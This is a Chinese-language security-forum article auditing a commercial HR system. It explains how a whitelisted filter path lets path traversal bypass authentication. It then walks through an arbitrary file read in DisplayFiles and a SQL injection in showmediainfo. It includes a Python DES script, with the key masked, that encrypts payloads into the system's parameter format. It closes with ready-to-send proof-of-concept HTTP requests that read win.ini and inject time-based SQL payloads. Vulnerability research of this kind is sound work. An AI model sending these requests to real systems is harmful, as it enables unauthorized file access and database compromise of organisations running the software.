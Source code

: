 0x00 前言
-------

我只能说，某景漏洞多的一。。。。。。  
今天，就捡两个公开过的漏洞进行下审计吧

0x01 过滤器查找
----------

有经验的师傅都知道，此系统很多接口是做了鉴权的，并不能未授权访问。但是，有的接口加白了，可以通过加白接口进行路径穿越绕过鉴权。  
废话不多说，开始正题。一般过滤器都会在web.xml里找到对应的接口与类名，搜索单词filter,定位到HireKeywordFilter类

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-e915435870da16d89fbf343cabfde91811606bb9.png)  
查看代码，`var3.doFilter(var1, var2);`这行代码是调用FilterChain对象的`doFilter`方法，将ServletRequest对象和ServletResponse对象传递给下一个过滤器或Servlet进行处理。在Servlet过滤器中，通过调用`FilterChain`的`doFilter`方法，可以将请求传递给过滤器链中的下一个过滤器，或者如果没有下一个过滤器了，则传递给Servlet进行处理。

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-0143d4032168a6f34aa3bf9c8a1988d34c598a23.png)  
![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-f19e2b457b2159bf53acc44ae2c0447817615c95.png)  
在这个例子中，若var6也就是uri是以/w\_selfservice/oauthservlet开头的，即执行`var3.doFilter(var1, var2);`。那么当我访问其他接口。则使用/w\_selfservice/oauthservlet../../即可绕过鉴权

0x02 漏洞审计
---------

在此，以最近爆出的DisplayFiles文件读取和showmediainfo注入为例开始审计。

### DisplayFiles文件读取

web.xml搜索DisplayFiles，定位到代码：

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-1fe101217d961ee175fd4c85ddd105967aa1278e.png)

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-e08543345f63e80e0b0705e19c55ccb27caeeafa.png)  
可见从前端接受参数filepath，赋值给var3变量，var3经过SafeCode.decode方法，PubFunc.decrypt方法后，得到明文，根据方法名就可以初步猜测是解码和解密操作。后续就很简单了，var3传入File类，赋值给var4,开始获取文件的字节流并输出到响应里面

### showmediainfo注入

web.xml搜索showmediainfo，定位到代码：

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-2f400f9b8a2632f0252219ea3d9545775eeabc01.png)

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-35a615af34a2338ebb7b88db52e34c07f1c06bd9.png)

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-e3dd68b1c85cf9cb95c3d6d926117aa51a74c819.png)  
前端接受usernumber、i9999、kind三个参数，分别赋值给var3、var4、var5三个变量。而后续逻辑明显可以看到sql语句的拼接，也就是注入点。发现var3和var4可注入，而var5是作为if的判断值。var3参数也经过 PubFunc.decrypt的解密。因此这个接口的注入，var4是比较简单的,var3需要经过解密操作。

0x03 加解密破解
----------

由上方的漏洞审计可知，两个漏洞参数都需要进行解密操作，意味着前端传入的参数值是一个密文。跟进解密方法查看代码。刚好看到加密方法也在上方。

```js
public static String encrypt(String var0) {  
    if (null \== var0) {  
        return "";  
    } else {  
        String var1 = SafeCode.encrypt(var0);  
        var1 = var1.replaceAll("%", "@2HJ5@");  
        var1 = var1.replaceAll("\\\\+", "@2HJB@");  
        var1 = var1.replaceAll(" ", "@2HJ0@");  
        var1 = var1.replaceAll("\\\\/", "@2HJF@");  
        var1 = var1.replaceAll("\\\\?", "@3HJF@");  
        var1 = var1.replaceAll("#", "@2HJ3@");  
        var1 = var1.replaceAll("&", "@2HJ6@");  
        var1 = var1.replaceAll("=", "@3HJD@");  
        var1 = var1.replaceAll("\\r\\n", "").replaceAll("\\n", "").replaceAll("\\r", "");  
        var1 = var1.replaceAll("@", "PAATTP");  
        return var1;  
    }  
}  

public static String decrypt(String var0) {  
    if (null \== var0) {  
        return "";  
    } else {  
        var0 = var0.replaceAll("PAATTP", "@");  
        var0 = var0.replaceAll("@2HJ5@", "%");  
        var0 = var0.replaceAll("@2HJB@", "\\\\+");  
        var0 = var0.replaceAll("@2HJ0@", " ");  
        var0 = var0.replaceAll("@2HJF@", "\\\\/");  
        var0 = var0.replaceAll("@3HJF@", "\\\\?");  
        var0 = var0.replaceAll("@2HJ3@", "#");  
        var0 = var0.replaceAll("@2HJ6@", "&");  
        var0 = var0.replaceAll("@3HJD@", "=");  
        String var1 = SafeCode.decrypt(var0);  
        return var1;  
    }  
}
```

先看加密方法，首先var0参数传入到SafeCode.encrypt方法进行加密，跟进此方法，可以看到使用的是des加解密函数，为对称加密算法，意味着只要有加密密钥，即可正向加密，也可逆向解密。而加密密钥即为下图马赛克的值（这属于厂商敏感信息，不明文展示了）：

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-9e6493ffe0ae96dbfb0629d9677e8bc38fe92fc1.png)

搞懂了加解密算法实际为des加解密，然后再回到PubFunc.encrypt方法，可知进行了des加密后，又要把密文的%，+，/等字符（具体看上方代码）进行一个替换，得到最终的密文。而同样的，查看PubFunc.decrypt方法代码，可得是加密的逆向操作，先对密文进行字符串替换，得到des的密文，再进行des解密。使用此逻辑写python加解密脚本，如下：

```js
from Crypto.Cipher import DES
from Crypto.Util.Padding import pad, unpad
from base64 import b64encode, b64decode

def encrypt(key, data):
    key = key.encode('utf-8')
    data = data.encode('utf-8')
    iv = b'\x01\x02\x03\x04\x05\x06\x07\x08'  # 初始化向量
    cipher = DES.new(key, DES.MODE_CBC, iv)
    ct_bytes = cipher.encrypt(pad(data, DES.block_size))
    var1=b64encode(ct_bytes).decode('utf-8')
    var1 = var1.replace("%", "@2HJ5@");
    var1 = var1.replace("+", "@2HJB@");
    var1 = var1.replace(" ", "@2HJ0@");
    var1 = var1.replace("/", "@2HJF@");
    var1 = var1.replace("?", "@3HJF@");
    var1 = var1.replace("#", "@2HJ3@");
    var1 = var1.replace("&", "@2HJ6@");
    var1 = var1.replace("=", "@3HJD@");
    var1 = var1.replace("\r\n", "").replace("\n", "").replace("\r", "");
    var1 = var1.replace("@", "PAATTP");
    return var1

def decrypt(key, encrypted_data):
    key = key.encode('utf-8')
    encrypted_data = encrypted_data.replace("PAATTP", "@");
    encrypted_data = encrypted_data.replace("@2HJ5@", "%");
    encrypted_data = encrypted_data.replace("@2HJB@", "+");
    encrypted_data = encrypted_data.replace("@2HJ0@", " ");
    encrypted_data = encrypted_data.replace("@2HJF@", "/");
    encrypted_data = encrypted_data.replace("@3HJF@", "?");
    encrypted_data = encrypted_data.replace("@2HJ3@", "#");
    encrypted_data = encrypted_data.replace("@2HJ6@", "&");
    encrypted_data = encrypted_data.replace("@3HJD@", "=");
    encrypted_data = b64decode(encrypted_data)
    iv = b'\x01\x02\x03\x04\x05\x06\x07\x08'  # 初始化向量
    cipher = DES.new(key, DES.MODE_CBC, iv)
    pt_bytes = unpad(cipher.decrypt(encrypted_data), DES.block_size)
    return pt_bytes.decode('utf-8')

if __name__ == "__main__":
    key = "xxxxx"
    data = "1' if db_name(1)='master' waitfor delay '0:0:6'--+"

    encrypted_data = encrypt(key, data)
    print("Encrypted:", encrypted_data)
    encrypted_data='0JALorlQogBNgRuaXkp7QCus5DXQ1K1RU60C2QunGQUgKkcXUh9HXukA75IwTpCaGcqFlluMQLvPAATTP2HJFPAATTPgvSl8mZXxPAATTP2HJFPAATTPe2LWnL7Rg2Ceg0zzONMioPAATTP3HJDPAATTP'
    decrypted_data = decrypt(key, encrypted_data)
    print("Decrypted:", decrypted_data)

```

运行示意图：

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-fd3b416574241658b2f9458ac5a580688d9fdb65.png)

0x04 最终poc
----------

### DisplayFiles文件读取

读取c:/windows/win.ini，先加密路径：

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-a496edaf8715946f564d1552c9d7f407a6440e72.png)  
发送poc:

```js
POST /templates/attestation/../../servlet/DisplayFiles HTTP/1.1
Host: 
User-Agent:Mozilla/5.0 (X11; OpenBSD i386) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 41

filepath=Iy4ZOyMhERdhPLlFrJHBaRdJo53c25S1
```

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-56b1a41de0820e9fbe0167dacf540530fded3a64.png)

### showmediainfo注入

先是简单的i9999参数注入，不走if (var5.equalsIgnoreCase("0"))，即令kind=1，为字符型注入。payload:' waitfor delay '0:0:6'--+  
poc:

```js
POST /templates/attestation/../../workbench/duty/showmediainfo HTTP/1.1
Host: 
User-Agent:Mozilla/5.0 (X11; OpenBSD i386) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

kind=1&usernumber=&i9999=12' waitfor delay '0:0:6'--+
```

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-ac65fc6a0c274206a7698fd34037a73156fdee6b.png)  
然后是usernumber注入，需要进入if (var5.equalsIgnoreCase("0"))，即令kind=0，还需要加密payload:

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-07258504fd16cb20b313fbef6b2a43cf63d24c28.png)  
poc:

```js
POST /templates/attestation/../../workbench/duty/showmediainfo HTTP/1.1
Host: 127.0.0.1:8080
User-Agent:Mozilla/5.0 (X11; OpenBSD i386) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 84

kind=0&usernumber=i8hoHAILh4YkvJtIAayRbk4pSpIEAvWmx22WPMFig6wPAATTP3HJDPAATTP&i9999=
```

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-113a088edec7b7e118bbbabcc5f0ba5fce29a401.png)